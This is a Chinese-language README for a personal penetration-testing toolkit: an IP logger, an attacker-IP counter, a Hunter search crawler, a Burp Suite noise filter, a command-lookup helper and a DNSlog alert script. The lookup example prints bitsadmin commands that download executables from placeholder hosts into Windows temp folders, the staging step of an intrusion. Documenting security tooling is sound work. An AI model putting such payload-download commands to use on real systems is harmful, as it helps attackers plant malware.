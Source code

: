 # 渗透测试小工具集

## getip 

> 记录自己平时做渗透的出口IP

没别的说的，就是记录一下自己平时的IP

## attacktop

> 攻击者IP次数统计


- 在看golang，顺手就把之前的一些python改成golang了。
- 这工具有个好处就在于统计出现次数，虽然Excel其实可以做得很好，但好多时候我连Excel都难得打开。把这工具添加环境变量，直接一条命令解决。

## hunters

> 奇安信全球鹰爬虫工具

网上其实关于hunter的爬虫工具非常多，但不知道为啥总冥冥之中觉得不适合自己，所以造了这个轮子。

功能大体跟别的相似，并且只支持hunter，原因是fofa有ehole、360可以直接导出。我费那个劲集成在一起干啥，并且这些工具其实人家都做得挺不错。

❎ 计划后头写成图形化的，别问为啥，有些时候命令行总觉得缺了点啥（单纯个人觉得）

## WebFilter

> 抓包过滤无意义网站

Burpsuite代理的时候可以使用这部分过滤非常多的垃圾网站（包含一部分互联网企业，如果挖掘src的需要自行研判了）以此减轻BurpSuite被动扫描的压力。


## Fs

> 快速命令检索工具

年龄大了？记忆不好？就用fs

代码很简洁，需要自己简单修改下代码，没有很好做好适配。

把你常用且又爱忘记的一些命令放到use.log里，然后通过执行Linux命令来检索。

那么你只需要编译好这个工具以后直接fs admin，就可以检索admin相关的信息出来。

如下所示：

```bash
➜  ~ fs bitsadmin
-+====================================+-
   181  ➜  windows download[+]:bitsadmin /rawreturn /transfer getfile http://x.x.x.x:8888/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
   183  ➜  windows download[+]:bitsadmin /rawreturn /transfer down "http://127.0.0.1:8080/z.exe" c:\\z.exe
   259  ➜  bitsadmin /rawreturn /transfer getfile http://x.x.x.x/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
-+====================================+-
```

不折不扣的懒人必备！

PS：之前有小伙伴问为什么不用命令行的那个提示符，那个感觉还是有点瑕疵，也就是你必须要记得前面字符，才会提示后面字符，而有时候是记得中间字符并不记得前面字符。

## s
> 漏洞检索
指定路径检索文件（主要用于代码，懒得连编辑器都不想打开）

## ceyes

> Ceyes dnslog告警提示

起因：早之前一直使用低版本的BurpSuite1.7.33，奈何在低版本中logger插件动不动就卡死啥的。

使用了高版本bp后，心想这个问题就解决了。

没想到....昨天一堆log4j的告警，而我在logger里死活搜索不到。

所以。。。。就有了这个小脚本。

可以自己加定时任务，自动检索然后产生告警，还是舒服的。

🤔 待添加功能

❎ 日志记录

❎ 将所需配置项写到JSON内读取